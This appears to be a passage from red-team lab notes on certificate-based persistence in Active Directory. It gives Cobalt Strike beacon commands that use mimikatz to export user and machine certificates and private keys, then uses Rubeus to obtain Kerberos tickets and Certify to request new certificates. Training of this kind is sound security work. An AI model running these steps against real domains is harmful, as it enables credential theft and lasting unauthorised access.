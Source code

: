     beacon> mimikatz crypto::certificates /export

    beacon> download CURRENT_USER_My_0_Nina Lamb.pfx
    [*] started download of C:\Users\nlamb\CURRENT_USER_My_0_Nina Lamb.pfx (3454 bytes)
    [*] download of CURRENT_USER_My_0_Nina Lamb.pfx is complete

- Go to View > Downloads to sync files from Cobalt Strike to your local machine.

Base64 encode the pfx file.

    ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0

Then use it with Rubeus to obtain a TGT.  The export password will be mimikatz.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap

- You may notice that this will request RC4 tickets by default.  You can force the use of AES256 by including the /enctype:aes256 parameter.

If the user does not have a certificate in their store, we can just request one with Certify.

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User

## Computer Persistence

The same can be applied to computer accounts, but we must elevate to extract those certificates.

    beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

      Public export  : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.der'
      Private export : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.pfx'
    
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap
    
    [*] Action: Ask TGT

If requesting a machine certificate with Certify, the /machine parameter is required to auto-elevate to SYSTEM and assume the identity of the computer account.

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine



























